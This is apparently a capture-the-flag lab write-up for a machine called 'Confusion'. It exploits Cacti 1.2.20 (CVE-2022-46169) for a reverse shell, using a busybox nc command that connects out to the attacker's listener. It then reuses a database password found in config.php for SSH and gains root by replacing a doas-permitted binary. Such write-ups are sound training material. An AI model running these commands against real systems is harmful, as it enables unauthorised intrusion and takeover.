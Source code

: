 # Confusion - Writeup

## Initial Enumeration

### Port Scanning
A comprehensive port scan revealed open ports and potential virtual hosts:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4
80/tcp open  http    Apache httpd 2.4.54
443/tcp open  https   Apache httpd 2.4.54
```

### Web Enumeration
Through Nmap and virtual host discovery, I identified two domains:
- confusion.pg → Displayed an "Under Construction" page
- cacti-monitoring.confusion.pg → Required HTTPS to access the login page

Adding these domains to my `/etc/hosts` file:
```bash
echo "192.168.172.99 confusion.pg cacti-monitoring.confusion.pg" >> /etc/hosts
```

Accessing the Cacti monitoring site revealed:
- Cacti Version 1.2.20
- Research indicated this version is vulnerable to CVE-2022-46169, an unauthenticated command injection vulnerability

## Gaining Initial Access

### Exploiting CVE-2022-46169
I attempted to exploit the vulnerability using different POCs:

1. First attempt failed with "FATAL: Unauth error"
2. Second attempt with a modified exploit confirmed the vulnerability:
```bash
curl -I https://cacti-monitoring.confusion.pg/ -H "X-Forwarded-For: 127.0.0.1" | grep Server
```

This successfully returned my server headers, confirming command execution was possible.

I then obtained a reverse shell as `www-data`:
```bash
python3 '/home/kali/Downloads/CVE-2022-46169.py' https://cacti-monitoring.confusion.pg/ -c 'busybox nc 192.168.45.225 3000 -e /bin/bash'
```

In a separate terminal, I had set up a listener:
```bash
nc -lvnp 3000
```

## Lateral Movement

### Database Credential Discovery
Once I had shell access as `www-data`, I explored the Cacti installation and found database credentials in the configuration file:
```bash
cat /var/www/html/cacti/include/config.php
```

This revealed the following database password:
```
uTyWUHAdetb3O23aUEOo1KRg
```

I attempted to enumerate the database:
```bash
mysql -u cacti -p'uTyWUHAdetb3O23aUEOo1KRg' -D cacti
```

While I found a bcrypt hash for the admin user, I was unable to crack it.

### Password Reuse
I discovered a local user named `james` on the system and tried the database password for SSH access:
```bash
ssh james@192.168.172.99
Password: uTyWUHAdetb3O23aUEOo1KRg
```

This succeeded, confirming password reuse and providing a more stable user-level access to the system.

## Privilege Escalation

### DOAS Configuration Analysis
Checking for privilege escalation vectors, I examined the DOAS configuration:
```bash
cat /etc/doas.conf
```

The configuration revealed that user `james` could run `/usr/local/sbin/systeminfo` as root:
```
permit james as root cmd /usr/local/sbin/systeminfo
```

### Binary Replacement Attack
I checked the permissions on the directory:
```bash
ls -la /usr/local/sbin/
```

Finding that `/usr/local/sbin` was writable by `james`, I executed a binary replacement attack:

1. Removed the original root-owned systeminfo file:
```bash
rm -rf /usr/local/sbin/systeminfo
```

2. Created a new systeminfo file containing a shell payload:
```bash
echo '/bin/bash' > /usr/local/sbin/systeminfo
```

3. Made the new file executable:
```bash
chmod +x /usr/local/sbin/systeminfo
```

4. Executed the file with DOAS to gain root access:
```bash
/usr/local/bin/doas -u root /usr/local/sbin/systeminfo
```

This immediately provided a root shell, successfully completing the privilege escalation and giving full control over the target system.